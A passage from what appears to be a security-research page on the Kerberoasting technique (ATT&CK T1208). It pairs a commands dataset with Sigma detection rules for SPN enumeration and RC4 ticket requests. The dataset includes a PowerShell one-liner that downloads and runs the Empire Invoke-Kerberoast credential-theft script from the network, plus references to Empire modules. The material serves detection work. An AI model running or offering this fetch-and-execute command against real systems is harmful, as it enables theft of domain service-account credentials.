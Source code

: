 ## Commands Dataset

```
[{'command': 'iex(iwr '
             'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1)\n'
             'Invoke-Kerberoast | fl\n',
  'name': None,
  'source': 'atomics/T1208/T1208.yaml'},
 {'command': 'powershell/credentials/invoke_kerberoast',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'},
 {'command': 'powershell/credentials/invoke_kerberoast',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'}]
```

## Potential Detections

```json
[{'data_source': {'author': 'Markus Neis, keepwatch',
                  'date': '2018/11/14',
                  'description': 'Detects Service Principal Name Enumeration '
                                 'used for Kerberoasting',
                  'detection': {'cmd': {'CommandLine': '*-q*'},
                                'condition': '(selection_image or '
                                             'selection_desc) and cmd',
                                'selection_desc': {'Description': '*Query or '
                                                                  'reset the '
                                                                  'computer* '
                                                                  'SPN '
                                                                  'attribute*'},
                                'selection_image': {'Image': '*\\setspn.exe'}},
                  'falsepositives': ['Administrator Activity'],
                  'id': '1eeed653-dbc8-4187-ad0c-eeebb20e6599',
                  'level': 'medium',
                  'logsource': {'category': 'process_creation',
                                'product': 'windows'},
                  'references': ['https://p16.praetorian.com/blog/how-to-use-kerberoasting-t1208-for-privilege-escalation'],
                  'status': 'experimental',
                  'tags': ['attack.credential_access', 'attack.t1208'],
                  'title': 'Possible SPN Enumeration'}},
 {'data_source': {'description': 'Detects service ticket requests using RC4 '
                                 'encryption type',
                  'detection': {'condition': 'selection and not reduction',
                                'reduction': [{'ServiceName': '$*'}],
                                'selection': {'EventID': 4769,
                                              'TicketEncryptionType': '0x17',
                                              'TicketOptions': '0x40810000'}},
                  'falsepositives': ['Service accounts used on legacy systems '
                                     '(e.g. NetApp)',
                                     'Windows Domains with DFL 2003 and legacy '
                                     'systems'],
                  'id': '496a0e47-0a33-4dca-b009-9e6ca3591f39',
                  'level': 'medium',
                  'logsource': {'product': 'windows', 'service': 'security'},
                  'references': ['https://adsecurity.org/?p=3458',
                                 'https://www.trimarcsecurity.com/single-post/TrimarcResearch/Detecting-Kerberoasting-Activity'],
                  'status': 'experimental',
                  'tags': ['attack.credential_access', 'attack.t1208'],
                  'title': 'Suspicious Kerberos RC4 Ticket Encryption'}},
```